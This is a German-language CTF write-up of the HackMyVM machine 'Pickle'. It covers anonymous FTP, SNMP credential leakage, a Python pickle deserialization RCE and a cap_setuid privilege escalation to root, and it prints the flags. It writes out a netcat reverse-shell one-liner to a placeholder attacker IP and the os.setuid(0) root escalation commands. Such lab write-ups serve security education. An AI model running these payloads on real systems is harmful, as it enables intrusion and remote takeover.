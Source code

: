 # Pickle - HackMyVM (Hard)

![Pickle.png](Pickle.png)

## Übersicht

*   **VM:** Pickle
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Pickle)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 19. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Pickle_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Pickle" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines FTP-Servers mit anonymem Zugriff, der den Quellcode (`init.py.bak`) einer Python/Flask-Webanwendung (Port 1337) preisgab. Diese Anwendung war durch HTTP Basic Authentication geschützt. Die Credentials (`lucas:SuperSecretPassword123!`) wurden über SNMP (public community string) gefunden. Die Webanwendung war anfällig für unsichere Deserialisierung von Python-Pickle-Objekten, was zur Remote Code Execution (RCE) als Benutzer `lucas` führte. Durch einen `su`-Befehl mit einem (nicht im Detail erklärten, aber im Log verwendeten) Passwort konnte zum Benutzer `mark` gewechselt werden. Die finale Rechteausweitung zu Root gelang durch Ausnutzung der Linux Capability `cap_setuid+ep` auf einem Python 2-Interpreter (`/home/mark/python2`), was das Setzen der UID auf 0 ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `ftp`
*   `snmpwalk`
*   `curl`
*   `hashlib` (Python-Modul)
*   `tcpdump` (impliziert für Netzwerkanalyse)
*   Python (Scripting für Pickle Exploit)
*   `cPickle` (Python-Modul)
*   `requests` (Python-Modul)
*   `nc` (netcat)
*   `getcap`
*   Python2 (als Exploit-Vektor)
*   `os` (Python-Modul für `setuid`, `system`)
*   Standard Linux-Befehle (`cat`, `ls`, `su`, `id`, `pwd`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Pickle" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web/Service Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.140) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte Port 21 (FTP, vsftpd 3.0.3, anonymer Login erlaubt) und Port 1337 (HTTP, Werkzeug httpd 1.0.1 / Python 2.7.16, HTTP Basic Auth geschützt).
    *   Über anonymen FTP-Login wurde die Datei `init.py.bak` (Quellcode der Webanwendung auf Port 1337) heruntergeladen.
    *   Analyse von `init.py.bak` zeigte die Verwendung des `pickle`-Moduls in der `/checklist`-Route, was auf eine Deserialisierungs-Schwachstelle hindeutete. Die Anwendung speicherte über die `/`-Route POST-Daten unter einem MD5-Hash im Verzeichnis `/opt/project/uploads/`.
    *   Mittels `snmpwalk -c public -v 1 192.168.2.140` wurden SNMP-Informationen abgefragt. In der `sysContact`-OID (`iso.3.6.1.2.1.1.4.0`) wurden die Credentials `lucas:SuperSecretPassword123!` gefunden.

2.  **Initial Access (Pickle Deserialization RCE als `lucas`):**
    *   Ein Python-Exploit-Skript wurde erstellt:
        *   Es definierte eine Klasse `CommandExecute` mit einer `__reduce__`-Methode, die `os.system()` mit einem Netcat-Reverse-Shell-Payload (`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ANGRIFFS_IP 9001 >/tmp/f`) aufruft.
        *   Ein Objekt dieser Klasse wurde mit `cPickle.dumps()` serialisiert.
        *   Der MD5-Hash des serialisierten Payloads wurde berechnet.
        *   Der serialisierte Payload wurde per POST-Request (mit den SNMP-Credentials `lucas:SuperSecretPassword123!`) an die `/`-Route der Webanwendung gesendet, um ihn auf dem Server zu speichern.
        *   Der MD5-Hash wurde per POST-Request (mit Credentials) an die `/checklist`-Route gesendet.
    *   Dies löste die `pickle.loads()`-Funktion auf dem Server aus, führte den serialisierten Payload aus und etablierte eine Reverse Shell als Benutzer `lucas` zu einem Netcat-Listener (Port 9001).

3.  **Privilege Escalation (von `lucas` zu `mark` via `su`):**
    *   Als `lucas` wurde ein weiteres Benutzerverzeichnis (`/home/mark`) entdeckt.
    *   Mit dem Passwort `SUk5enRY2FnUWxnV1BUWFJNNXh4amxhc00wPQ==` (Herkunft im Log nicht detailliert, aber direkt verwendet) wurde mittels `su mark` erfolgreich zum Benutzer `mark` gewechselt.
    *   Die User-Flag (`e25fd1b9248d1786551e3412adc74f6f`) wurde in `/home/mark/user.txt` gefunden.

4.  **Privilege Escalation (von `mark` zu `root` via Capabilities):**
    *   Als `mark` wurde mit `getcap -r / 2>/dev/null` festgestellt, dass der Python 2-Interpreter `/home/mark/python2` die Capability `cap_setuid+ep` besaß.
    *   `/home/mark/python2` wurde gestartet.
    *   Innerhalb des Python-Interpreters wurden die Befehle `import os`, `os.setuid(0)` und `os.system("cat /root/root.txt")` ausgeführt.
    *   Da die `cap_setuid`-Capability vorhanden war, setzte `os.setuid(0)` die effektive UID des Prozesses auf 0 (Root).
    *   Der `cat /root/root.txt`-Befehl wurde somit als Root ausgeführt und gab die Root-Flag (`7a32c9739cc63ed983ae01af2577c01c`) aus.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugriff mit Informationsleck:** Preisgabe von Quellcode-Backups (`init.py.bak`).
*   **SNMP Information Disclosure (public community):** Klartext-Credentials (`lucas:SuperSecretPassword123!`) waren über SNMP mit dem Standard-Community-String "public" zugänglich.
*   **Unsichere Deserialisierung (Python Pickle):** Eine Webanwendung verwendete `pickle.loads()` auf benutzbeeinflussbare Daten, was zu Remote Code Execution (RCE) führte.
*   **Passwort-Wiederverwendung / Schwache Passwörter (impliziert):** Das Passwort für `mark` war dem Angreifer bekannt.
*   **Linux Capabilities (cap_setuid):** Ein Python-Interpreter im Home-Verzeichnis eines Benutzers hatte die `cap_setuid`-Capability, was eine direkte Eskalation zu Root ermöglichte, indem die UID des Prozesses geändert wurde.

## Flags

*   **User Flag (`/home/mark/user.txt`):** `e25fd1b9248d1786551e3412adc74f6f`
*   **Root Flag (`/root/root.txt`):** `7a32c9739cc63ed983ae01af2577c01c`

## Tags

`HackMyVM`, `Pickle`, `Hard`, `Anonymous FTP`, `SNMP Enumeration`, `Python Pickle Deserialization`, `RCE`, `Linux Capabilities`, `cap_setuid`, `Python2 Exploit`, `Linux`, `Web`, `Privilege Escalation`, `vsftpd`, `Werkzeug`
